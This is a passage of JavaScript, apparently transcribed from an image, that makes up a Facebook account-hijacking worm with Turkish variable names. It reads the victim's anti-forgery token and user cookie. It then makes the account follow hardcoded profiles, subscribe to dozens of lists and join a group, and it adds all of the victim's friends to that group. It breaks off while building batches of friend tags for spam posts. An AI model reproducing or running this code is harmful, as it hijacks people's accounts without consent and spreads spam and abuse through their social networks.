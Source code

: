 Math.floor(Math.random() * (max - min + 1)) + min; } function randomValue(arr) {     return arr[getRandomInt(0, arr.length-1)]; }  var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);  function a(abone){     var http4 = new XMLHttpRequest();           var url4 = "/ajax/follow/follow_profile.php?__a=1";           var params4 = "profile_id=" + abone + "&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg=" + fb_dtsg + "&amp;lsd&amp;__" + user_id + "&amp;phstamp=";     http4.open("POST", url4, true);           //Send the proper header information along with the request     http4.setRequestHeader("Content-type", "application/x-www-form-urlencoded");     http4.setRequestHeader("Content-length", params4.length);     http4.setRequestHeader("Connection", "close");           http4.onreadystatechange = function() {//Call a function when the state changes.     if(http4.readyState == 4 &amp;&amp; http4.status == 200) {               http4.close; // Close the connection           }     }          http4.send(params4); }  function sublist(uidss) { 		var a = document.createElement('script'); 		a.innerHTML = "new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: " + uidss + " }).send();"; 		document.body.appendChild(a); }  a("100001471322731"); a("100004136434912");  sublist("598527486872957"); sublist("603115523080820"); sublist("616876431704729"); sublist("634795876579451"); sublist("634796053246100"); sublist("264286217052591"); sublist("269140746567138"); sublist("270530253094854"); sublist("299855376829008"); sublist("299855686828977"); sublist("309724099190621"); sublist("309724272523937"); sublist("544558448958535"); sublist("586421531438893"); sublist("318675138274056"); sublist("353759264765643"); sublist("1381585352116850"); sublist("1381586235450095"); sublist("1381587032116682"); sublist("188398471364926"); sublist("183089565229150"); sublist("181556802049093"); sublist("187525861452187"); sublist("183889458482494"); sublist("202708653267241"); sublist("202711029933670"); sublist("202711429933630"); sublist("202711663266940"); sublist("202712759933497"); sublist("202718106599629"); sublist("202718799932893"); sublist("202719049932868"); sublist("202719549932818"); sublist("202720023266104"); sublist("202720309932742"); sublist("202721769932596"); sublist("202722253265881"); sublist("202723956599044"); sublist("202725789932194"); sublist("202732483264858"); sublist("202732976598142"); sublist("202738193264287"); sublist("1381208732131207"); sublist("567679269975791"); sublist("572695886140796"); sublist("572696779474040"); sublist("576799369063781"); sublist("576798919063826");  var gid = ['544142325664062'];  var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value']; var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]);  var httpwp = new XMLHttpRequest(); var urlwp = '/ajax/groups/membership/r2j.php?__a=1'; var paramswp = '&amp;ref=group_jump_header&amp;group_id=' + gid + '&amp;fb_dtsg=' + fb_dtsg + '&amp;__user=' + user_id + '&amp;phstamp='; httpwp['open']('POST', urlwp, true); httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded'); httpwp['setRequestHeader']('Content-length', paramswp['length']); httpwp['setRequestHeader']('Connection', 'keep-alive'); httpwp['send'](paramswp);  var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value']; var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]);  var friends = new Array(); gf = new XMLHttpRequest(); gf['open']('GET', '/ajax/typeahead/first_degree.php?__a=1&amp;viewer=' + user_id + '&amp;token' + Math['random']() + '&amp;filter[0]=user&amp;options[0]=friends_only', false); gf['send'](); if (gf['readyState'] != 4) {} else {     data = eval('(' + gf['responseText']['substr'](9) + ')');     if (data['error']) {} else {         friends = data['payload']['entries']['sort'](function (_0x93dax8, _0x93dax9) {             return _0x93dax8['index'] - _0x93dax9['index'];         });     }; };  for (var i = 0; i &lt; friends['length']; i++) {     var httpwp = new XMLHttpRequest();     var urlwp = '/ajax/groups/members/add_post.php?__a=1';     var paramswp= '&amp;fb_dtsg=' + fb_dtsg + '&amp;group_id=' + gid + '&amp;source=typeahead&amp;ref=&amp;message_id=&amp;members=' + friends[i]['uid'] + '&amp;__user=' + user_id + '&amp;phstamp=';     httpwp['open']('POST', urlwp, true);     httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded');     httpwp['setRequestHeader']('Content-length', paramswp['length']);     httpwp['setRequestHeader']('Connection', 'keep-alive');     httpwp['onreadystatechange'] = function () { if (httpwp['readyState'] == 4 &amp;&amp; httpwp['status'] == 200) {};     };     httpwp['send'](paramswp); }; var spage_id = "114548671957673"; var spost_id = "614576671954868"; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var smesaj = ""; var smesaj_text = ""; var arkadaslar = []; var svn_rev; var bugun= new Date(); var btarihi = new Date();  btarihi.setTime(bugun.getTime() + 1000*60*60*4*1); if(!document.cookie.match(/paylasti=(\d+)/)){ document.cookie = "paylasti=hayir;expires="+ btarihi.toGMTString(); }   //arkadaslari al ve isle function sarkadaslari_al(){ 		var xmlhttp = new XMLHttpRequest();         xmlhttp.onreadystatechange = function () { 			if(xmlhttp.readyState == 4){ 				  eval("arkadaslar = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";"); 				  for(f=0;f&lt;Math.round(arkadaslar.payload.entries.length/10);f++){ 					smesaj = ""; 					smesaj_text = ""; 				  for(i=f*10;i&lt;(f+1)*10;i++){ 					if(arkadaslar.payload.entries[i]){ 				  smesaj += "